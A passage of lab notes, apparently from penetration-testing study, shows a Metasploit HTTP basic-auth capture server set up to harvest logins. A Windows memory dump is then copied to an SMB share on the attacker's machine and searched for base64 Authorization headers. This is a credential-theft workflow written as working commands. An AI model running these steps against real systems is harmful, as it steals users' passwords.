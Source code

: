 #### 3.1.2 - Use Case

```
msf6 > use auxiliary/server/capture/http_basic

msf6 auxiliary(server/capture/http_basic) > options

Module options (auxiliary/server/capture/http_basic):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   REALM        Secure Site      yes       The authentication realm you'd like to present.
   RedirectURL                   no        The page to redirect users to after they enter basic auth creds
   SRVHOST      0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT      80               yes       The local port to listen on.
   SSL          false            no        Negotiate SSL for incoming connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                       no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name     Description
   ----     -----------
   Capture  Run capture web server


msf6 auxiliary(server/capture/http_basic) > set srvhost 10.8.145.108
srvhost => 10.8.145.108
msf6 auxiliary(server/capture/http_basic) > set uripath /login
uripath => /login
msf6 auxiliary(server/capture/http_basic) > run
[*] Auxiliary module running as background job 3.
[*] Using URL: http://10.8.145.108/login
[*] Server started.
```

![[01 - Realm.png]]

![[02 - Create Dump File.png]]

![[03 - Memory Dump File Saved.png]]

```
$ sudo smbserver.py share $(pwd)

C:\Users\user>copy C:\Users\user\AppData\Local\Temp\iexplore.dmp \\10.8.145.108\share\
The specified network name is no longer available.
        1 file(s) copied.

$ ls -lh
total 100M
-rw-r--r-- 1 user user 100M May 29 16:41 iexplore.dmp

$ strings iexplore.DMP | grep "Authorization: Basic"

$ echo -ne <base64_string> | base64 -d
```

---